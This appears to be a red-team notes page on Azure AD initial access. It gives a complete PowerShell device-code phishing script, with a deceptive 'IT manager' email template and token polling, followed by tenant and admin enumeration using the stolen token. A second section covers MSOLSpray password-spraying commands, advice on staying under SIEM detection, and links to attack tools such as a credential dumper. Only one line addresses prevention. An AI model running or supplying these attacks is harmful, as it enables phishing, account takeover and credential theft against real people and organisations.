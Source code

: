 # Initial Access

### Device Code Authentication Method - Phishing Attack <a href="#device-code-authentication-method-phishing-attack" id="device-code-authentication-method-phishing-attack"></a>

&#x20;

<img src="../../.gitbook/assets/image.png" alt="" data-size="original">

The basic idea to utilize device code authentication for phishing is the following.

1. An attacker connects to /devicecode endpoint and sends **client\_id** and **resource**
2. After receiving **verification\_uri** and **user\_code**, create an email containing a link to **verification\_uri** and **user\_code**, and send it to the victim.
3. Victim clicks the link, provides the code and completes the sign in.
4. The attacker receives **access\_token** and **refresh\_token** and can now mimic the victim.

Run the script below;&#x20;

Which is taken from o365 blog in the reference;

```
$body=@{
	"client_id" = "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"resource" =  "https://graph.windows.net"
}


$authResponse = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/common/oauth2/devicecode?api-version=1.0" -Body $body
$user_code =    $authResponse.user_code

######################################################################## 
########################################################################
Get-AADIntGlobalAdmins -UserPrincipalName "user@yourexample" -DisplayName "Exercise"

# Invoke the request to get device and user codes
# Send to attacker
# https://microsoft.com/devicelogin login

#Hi!,

#This is an urgent situation. You'r device is affected by malware and we are taking some malicious logs
#from your device. So we have deleted your device from our Azure AD resources.
#By using the code:  you need to reregister to https://microsoft.com/devicelogin and 
#resign all applications again.

#Your IT manager



########################################################################
########################################################################
# Already sent a phishing attack to victim now we are going to next step.

$continue = $true
$interval = $authResponse.interval
$expires =  $authResponse.expires_in

# Create body for authentication requests

$body=@{
	"client_id" =  "d3590ed6-52b3-4102-aeff-aad2292ab01c"
	"grant_type" = "urn:ietf:params:oauth:grant-type:device_code"
	"code" =       $authResponse.device_code
	"resource" =   "https://graph.windows.net"
}

# Loop while authorisation is pending or until timeout exceeded

while($continue)
{
	Start-Sleep -Seconds $interval
	$total += $interval

	if($total -gt $expires)
	{
		Write-Error "Timeout occurred"
		return
	}
				
	# Try to get the response. Will give 40x while pending so we need to try&catch

	try
	{
		$response = Invoke-RestMethod -UseBasicParsing -Method Post -Uri "https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0 " -Body $body -ErrorAction SilentlyContinue
	}
	catch
	{
		# This is normal flow, always returns 40x unless successful

		$details=$_.ErrorDetails.Message | ConvertFrom-Json
		$continue = $details.error -eq "authorization_pending"
		Write-Host $details.error

		if(!$continue)
		{
			# Not pending so this is a real error

			Write-Error $details.error_description
			return
		}
	}

	# If we got response, all okay!

	if($response)
	{
		break # Exit the loop

	}
}


#Then start running these commands 
# Enumerate AAD

Get-AADIntUsers -AccessToken $response.access_token | select displayname
Get-AADIntGlobalAdmins -AccessToken $response.access_token
Get-AADIntTenantID -AccessToken $response.access_token
Get-AADIntTenantDetails -AccessToken $response.access_token
get-aadintusermfa -AccessToken $response.access_token
```



**Limitation from Attacker Perspective**

* Victim should authenticate in 15 min
* Attackers logining to system so their logs will be there.

**Preventing**

* Conditional Access (CA)



**Reference**

[![](https://aadinternals.com/images/favicon-16x16.png)Introducing a new phishing technique for compromising Office 365 accounts](https://o365blog.com/post/phishing/)

### Password Spray  <a href="#password-spray" id="password-spray"></a>

After finding users on Azure AD we will try to login into their accounts this can be really noisy

so password spraying can be tried at that time. But we should be careful about not doing so many requests since windows blocking and also there is so much noise on the SIEM side.

`PS C:\Tools\MSOLSpray-master> Import-Module .\MSOLSpray.ps1`&#x20;

`PS C:\Tools\MSOLSpray-master> Invoke-MSOLSpray -UserList .\validemails.txt -Password [PASSWORD] -Verbose`

Here is the some tools for testing it.

* [MSOLSpray](https://github.com/dafthack/MSOLSpray) - A password spraying tool for Microsoft Online accounts (Azure/O365)
* [MSOLSpray.py](https://github.com/MartinIngesen/MSOLSpray) - A Python version of the MSOLSpray password spraying tool for Microsoft Online accounts (Azure/O365)
* [o365spray](https://github.com/0xZDH/o365spray) - Username enumeration and password spraying tool aimed at Microsoft O365
* [MFASweep](https://github.com/dafthack/MFASweep) - A tool for checking if MFA is enabled on multiple Microsoft Services Resources
* [adconnectdump](https://github.com/fox-it/adconnectdump) - Dump Azure AD Connect credentials for Azure AD and Active Directory
